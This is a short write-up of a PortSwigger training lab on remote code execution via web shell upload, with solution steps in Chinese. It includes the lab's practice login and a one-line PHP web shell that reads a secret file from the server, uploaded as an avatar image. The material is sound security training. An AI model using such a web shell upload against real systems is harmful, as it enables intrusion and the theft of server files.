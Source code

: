 # Remote code execution via web shell upload

## Information
---

- [PortSwigger - Lab: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 

## Solution
---

1. 上傳以下腳本。
    ```php
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ```

2. 透過查看 **avator** 來得到腳本執行結果。

3. 提交獲取資訊。